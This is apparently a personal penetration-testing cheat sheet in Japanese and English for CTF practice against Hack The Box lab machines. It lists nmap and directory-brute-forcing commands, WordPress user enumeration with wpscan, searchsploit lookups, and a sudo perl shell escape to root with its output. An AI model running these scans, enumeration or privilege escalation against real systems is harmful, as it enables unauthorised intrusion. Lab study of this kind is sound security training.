
# My Cheat Sheet

## 探索

### nmap
```
nmap -sC -sV -O -v -oV 10.10.10.17
```

### nmap tips

https://muchipopo.com/ctf/cheatsheet-oscp/

## http/https 

### http 探索
```
gobuster dir -u http://shocker.htb/ -w /usr/share/wordlists/dirb/common.txt
```
```
feroxbuster -u http://shocker.htb -f -n
feroxbuster -u http://shocker.htb/cgi-bin/ -x sh,cgi,pl
```
```
dirb http://10.10.10.56/cgi-bin/ -X .sh,.pl,.txt,.php,.py
```

### WordPress
```
wpscan --url https://brainfuck.htb --disable-tls-checks
```

### searchsploit 詳細表示

```
searchsploit -x 41006.txt
```

### Word Press username 列挙
```
wpscan --url https://brainfuck.htb --disable-tls-checks --enumerate u
```

### Word Press admin page

```
https://brainfuck.htb/wp-admin/
```

## exploit code 

### searchsploit
```
searchsploit wordpress plugin wp support
```

## root 権限
https://gtfobins.github.io/gtfobins/perl/
```
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
whoami
root
```

## Tips

### AutoRecon
https://github.com/Tib3rius/AutoRecon
